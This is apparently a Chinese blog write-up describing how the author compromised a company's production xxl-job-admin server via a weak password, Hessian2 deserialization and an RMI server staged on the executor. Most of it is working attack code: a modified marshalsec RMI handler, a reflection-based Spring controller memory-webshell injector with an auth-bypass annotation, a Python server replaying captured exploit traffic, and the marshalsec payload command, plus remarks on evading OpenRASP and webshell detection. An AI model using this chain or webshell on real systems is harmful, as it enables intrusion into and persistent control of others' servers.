


# Attack_Xxl-Job-Admin-下篇

在上一篇中笔者有说到未能成功拿下prd-server1，但成功拿下了prd-server2，本篇博文将阐述这一有趣的过程，另外，在上篇中提及的知识点本篇不再赘述。

## 当前信息

首先，关于prd-server2有如下信息：

①通过弱口令登录了后台，后台有GLUE功能可以管理执行器（开发者新增了一个自定义登录接口，这个接口没有漏洞的，但由于开发者没有删除旧有的登录接口，我们通过旧有的接口的弱口令进入了后台）；

②xxl-job-admin版本大致为2.0.2，使用的Hessian2，`Api`接口可以触发Hessian反序列化漏洞，部署方式为sping boot jar；

③xxl-job-admin机器无法外联，执行器也无法外联，但目前手头的Hessian Gadeget需要机器能外联；

④xxl-job-admin与执行器之间是网络互通的。

## 攻击思路

通过以上信息，我们目前有如下攻击思路：

①先本地搭建相关环境，将xxl-job-admin的rmi外联请求与我们的rmi服务器之间的交互进行抓包保存，并编写python socket server来模拟rmi server；这里的rmi代码执行内容我们可以写一个spring的内存马。

②使用控制台的glue python功能在executor开启rmi server脚本（可以先写入到executor再执行）。

③本地使用Hessian2反序列化EXP对xxl-job-admin进行攻击，rmi server为xxl-job-executor（executor的IP可以再控制台中看到，另外也可以通过glue执行命令查看executor的IP）

④连接xxl-job-admin的内存马

具体的攻击流量过程如下图：  



## RMI服务

这里使用EL表达式+BCEL的方式来加载我们自定义的代码，不过在这个BCEL中加载的代码无法直接import拿到非JAVA核心类，所以我们自定义的代码中，需要通过反射拿到我们想要的对象数据方法（蛋疼）。

我们直接修改`Marshalsec`的`handleRMI`方法，使用我们自定义的`ResourceRef`进行替换：

```java
    private boolean handleRMI ( ObjectInputStream ois, DataOutputStream out ) throws Exception {
        int method = ois.readInt(); // method
        ois.readLong(); // hash
        if ( method != 2 ) { // lookup
            return false;
        }
        String object = (String) ois.readObject();
        System.err.println("Is RMI.lookup call for " + object + " " + method);
        out.writeByte(TransportConstants.Return);// transport op
        try ( ObjectOutputStream oos = new MarshalOutputStream(out, this.classpathUrl) ) {

            oos.writeByte(TransportConstants.NormalReturn);
            new UID().write(oos);

            System.err.println(
                    String.format(
                            "Sending remote classloading stub targeting %s",
                            new URL(this.classpathUrl, this.classpathUrl.getRef().replace('.', '/').concat(".class"))));

            ReferenceWrapper rw = Reflections.createWithoutConstructor(ReferenceWrapper.class);
            //Reference https://xz.aliyun.com/t/3787
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            ref.add(new StringRefAddr("x", getEl()));

            Reflections.setFieldValue(rw, "wrappee", ref);
            Field refF = RemoteObject.class.getDeclaredField("ref");
            refF.setAccessible(true);
            refF.set(rw, new UnicastServerRef(12345));

            oos.writeObject(rw);

            oos.flush();
            out.flush();
        }
        return true;
    }
```

另外main方法随便改改，能用就好：

```java
public static void main ( String[] args ) {
        args = new String[]{"http://127.0.0.1#Object","21345"};
        ...
}
```

## Spring内存马

这里需要使用`EncodeClass`将`Behind`转为字符，然后将其填入`SpringControllerNeedle`的`classCode`中。

`SpringControllerNeedle`原本的代码逻辑比较简单，可以参考`https://github.com/bitterzzZZ/MemoryShellLearn`，但是这里不得不使用反射，所以代码变得复杂。

另外，为了让我们访问webshell的时候不必带认证Cookie，我们需要添加xxl-job-admin的`PermessionLimit`注解。

```java
package com.blood;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import sun.misc.BASE64Encoder;
/**
 *获取将需要加载到内存的马的字节码的BAE64字符
 */
public class EncodeClass {
    public static void main(String[] args) throws Exception {
        BASE64Encoder encoder = new BASE64Encoder();
        JavaClass cls = Repository.lookupClass(Behind.class);
        byte[] classBytes = cls.getBytes();
        String b64Class = encoder.encode(classBytes);
        System.out.println(b64Class.replaceAll("\\s",""));
    }
}

```

```java
package com.blood;
//import com.xxl.job.admin.controller.annotation.PermessionLimit;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class Behind {
    //避免认证，加入xxl-job-admin的注解即可,但实际业务环境对包名进行了修改..所以没有啥用
    //@PermessionLimit(limit=false)
    @PermessionLimit(limit=false)
    public void index(HttpServletRequest req, HttpServletResponse resp) {
        try {
            if (req.getMethod().equals("POST")) {
                //你的内存马
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```java
package com.needle;
import java.lang.reflect.*;
import java.util.Iterator;
import java.util.Map;
/**
 * Reference https://github.com/bitterzzZZ/MemoryShellLearn
 */
public class SpringControllerNeedle {

    static{
        String classCode =
                "EncodeClass后的base64字符";
        String targetClass = "com.blood.Behind";
        String webPath = "/needle/behind";
        try {
            Object requestAttributes = getMethodInvoke("org.springframework.web.context.request" +
                            ".RequestContextHolder",
                    "currentRequestAttributes", null, null);

            Object webApplicationContext = getMethodInvoke(requestAttributes, "getAttribute", new Class[]{String.class,
                            int.class},
                    new Object[]{
                            "org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0});

            Method getBean = getMethod("org.springframework.beans.factory.BeanFactory", "getBean", Class.class);
            Object requestMappingHandlerMapping = getBean.invoke(webApplicationContext, getClass("org.springframework.web.servlet.mvc" +
                    ".method.annotation" +
                    ".RequestMappingHandlerMapping"));
            Object abstractHandlerMethodMapping = getBean.invoke(webApplicationContext, getClass("org.springframework" +
                    ".web.servlet.handler.AbstractHandlerMethodMapping"));

            Method getMappingRegistry = getMethod("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping"
                    , "getMappingRegistry", null);
            Object mappingRegistry = getMappingRegistry.invoke(abstractHandlerMethodMapping);


            Map urlLookup = (Map) getField("org.springframework.web.servlet.handler" +
                            ".AbstractHandlerMethodMapping$MappingRegistry",
                    "urlLookup",mappingRegistry);


            Iterator urlIterator = urlLookup.keySet().iterator();
            while (urlIterator.hasNext()){
                String urlPath = (String) urlIterator.next();
                if (webPath.equals(urlPath)){
                    throw new Exception("path exists");
                }
            }

            byte[] codeBytes = new sun.misc.BASE64Decoder().decodeBuffer(classCode);
            Method m = null;
            try {
                m = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class, byte[].class, int.class, int.class});
                m.setAccessible(true);
            } catch (Exception e) {
                throw new Exception("get defineClass error");
            }
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            try {
                m.invoke(classLoader, new Object[]{targetClass, codeBytes, 0, codeBytes.length});
            } catch (Exception e) {
                throw new Exception("register targetClass error");
            }

            Method targetMethod = getClass(targetClass).getDeclaredMethods()[0];


            Class requestMethod = getClass("org.springframework.web.bind.annotation.RequestMethod");

            Object foo = Array.newInstance(requestMethod, 0);
            Constructor constructor = getClass("org.springframework.web.servlet.mvc" +
                    ".condition" +
                    ".RequestMethodsRequestCondition").getConstructor(foo.getClass());
            Object get = getField("org.springframework.web.bind.annotation.RequestMethod", "GET",null);
            Object post = getField("org.springframework.web.bind.annotation.RequestMethod", "POST", null);
            Object requestMethodsRequestCondition = null;
            Object rmA = Array.newInstance(requestMethod, 2);
            Array.set(rmA, 0, get);
            Array.set(rmA, 1, post);
            try {
                requestMethodsRequestCondition = constructor.newInstance(rmA);
            } catch (Exception e) {
                throw new Exception("requestMethodsRequestCondition is null");
            }

            Constructor<?>[] requestMappingInfoCs = getClass("org.springframework.web.servlet.mvc.method.RequestMappingInfo").getConstructors();
            Constructor constructor1 = getClass("org.springframework.web.servlet.mvc.condition" +
                    ".PatternsRequestCondition").getConstructor(String[].class);
            Object patternsRequestCondition = constructor1.newInstance(new Object[]{ new String[]{webPath}});
            Object requestMappingInfo = null;
            for (Constructor tmpC : requestMappingInfoCs) {
                try {
                    requestMappingInfo = tmpC.newInstance(patternsRequestCondition, requestMethodsRequestCondition,
                            null, null, null, null, null);
                    break;
                } catch (Exception e) {
                }
            }
            if (requestMappingInfo == null) {
                throw new Exception("requestMappingInfo is null");
            }
            Object[] args = {requestMappingInfo, Class.forName(targetClass, true, classLoader).newInstance(), targetMethod};
            Method registerMapping = null;
            try {
                registerMapping = getClass("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping")
                        .getMethod("registerMapping",new Class[]{Object.class,Object.class,Method.class});
            } catch (Exception e) {
                throw new Exception("registerMapping is null");
            }
            try {
                registerMapping.invoke(requestMappingHandlerMapping, args);
            } catch (Exception e) {
                throw new Exception("registerMapping invoke error");
            }

        } catch (Exception e) {
  
        }
    }

    private static Object getField(Object object, String fieldName,Object dst) throws Exception {
        if (dst == null) {
            dst = object;
        }
        Field field =  getClass(object).getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(dst);
    }
    private static Object getMethodInvoke(Object object, String methodName, Class[] parameterTypes,
                                          Object[] args) throws Exception {
        try {
            Method method = getMethod(object, methodName, parameterTypes);

            return method.invoke(getInvokeObject(object), args);
        } catch (Exception e) {
            throw new Exception(String.format("getMethodInvoke error:%s#%s",object.toString(),methodName));
        }
    }

    private static Method getMethod(Object object, String methodName, Class<?>... parameterTypes) throws Exception {
        try {

            Method method = getClass(object).getDeclaredMethod(methodName,
                    parameterTypes);

            method.setAccessible(true);
            return method;
        } catch (Exception e) {
            throw new Exception(String.format("getMethod error:%s#%s",object.toString(),methodName));
        }
    }

    private static Class<?> getClass(Object object) throws ClassNotFoundException {
        if (object instanceof String) {
            String s = (String) object;
            Class clazz = null;
            try {
                clazz = Class.forName(s, true, Thread.currentThread().getContextClassLoader());
            } catch (Exception e) {
            }
            if (clazz == null) {
                clazz = Class.forName(s);
            }
            return clazz;
        } else {
            return object.getClass();
        }
    }

    private static Object getInvokeObject(Object object) throws ClassNotFoundException {
        if (object instanceof String) {
            return Thread.currentThread().getContextClassLoader().loadClass((String) object);
        } else {
            return object;
        }
    }
}


```

## 模拟RMI Server



将通过wireshark抓包捕获我们的rmi测试流量，放到`flow_data`数组中，启动该python脚本即可模拟一个用于发送EXP的rmi server

```python
import socket
import binascii
import sys
flow_data = [
"4a524d4900024b",
。。。
]

flow_data = [binascii.a2b_hex(item) for item in flow_data]

if __name__ == '__main__':
    client_seq = [0,2,3]
    #server_seq = [1,4,5]
    sum_sq = len(flow_data)
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    host = "0.0.0.0"
    try:
        port = int(sys.argv[1])
    except:
        port =21345
    server.bind((host,port))
    server.listen(5)
    socket.setdefaulttimeout(5)
    print("[+]server bind on %s:%d"%(host,port))
    while True:
        client,addr = server.accept()
        print("[*]received client %s"%(str(addr)))
        for seq in range(sum_sq):

            if seq in client_seq:
                print("[+]current seq:%d, recving" % seq)
                try:
                    data = client.recv(1024)
                except socket.timeout:
                    pass
            else:
                print("[+]current seq:%d, sending" % seq)
                try:
                    client.sendall(flow_data[seq])
                except socket.timeout:
                    pass
        print("[+]client close")
        client.close()

```

## 坑点

尽量不要从当前用户请求去拿对象，因为你拿的对象可能是用户自定义的一个实现类，在你调这个自定义类的过程中可能会导致预期之外的异常，而且你很难发现。

起初我们是通过下面这种方式最终拿到的`WebApplicationContext`, 在自己搭建的xxl-job-admin 测试环境上完全没有任何问题，但是到了实际业务环境，就是没有成功写入，这让我们折腾了很久。后来发现是因为prd-server2的xxl-job-admin是目标公司二次开发过的，我们通过`getRequest`拿到的对象不符合我们的预期。

```java
javax.servlet.ServletContext sss = ((ServletRequestAttributes)RequestContextHolder.getRequestAttributes()).getRequest().getSession().getServletContext();
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(servletContext);
```

## 攻击过程

①弱口令登录后台后，我们通过glue python写入`rmi server`脚本到tmp目录，随后使用glue python执行命令`nohup /tmp/rmi_server.py &`，启动我们的rmi服务，端口应该使用未被占用的高端口；

②通过`marshalsec`获取`Hessian2`反序列化触发EXP，并发送到到xxl-job-admin的`/API`接口

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://executor_ip:port/Object > marshalsec.hessian2.bin
```

③连接webshell，且需带上认证的Cookie

## 结语

这里给出的内存马稍微还是有点缺陷，由于我们的内存马是以Spring Controller方式注册的，根目录在`xxl-job-admin`下，流量会先经过该应用的`PermissionInterceptor`，进行权限、cookie的校验。文中的xxl-job-admin是对源码做了一定修改，包名也有变化，这种情况下添加`com.xxl.job.admin.controller.annotation.PermessionLimit`注解就无效了，另外也没有存在通配符匹配下的不必认证的URI路径。后续的内存马应该尽量使用`Interceptor`一类的，避免该种问题。

在防御这块，BB几句吧。首先，目标机器上有OpenRASP，但在本案例中`OpenRASP`效果上确实比较让人失望：维护OpenRASP需要十分十分专业的人，可能需要不断挖掘测试各漏洞场景下的情况，并维护规则，反序列化场景下的防御十分依赖命令执行的检测，但由于其严重的缺陷，该命令执行检测可以被绕过，且漏洞利用者直接写内存马。在内存马的检测这块，我们也有针对某藤做bypass研究，所以实际上也形同虚设。环境中也有某眼，但可能日志太多，或者是我们没有使用流行payload，所以运营团队难以发觉。


Reference

https://github.com/bitterzzZZ/MemoryShellLearn

https://github.com/xuxueli/xxl-job/tree/2.0.2

https://github.com/mbechler/marshalsec

https://xz.aliyun.com/t/3787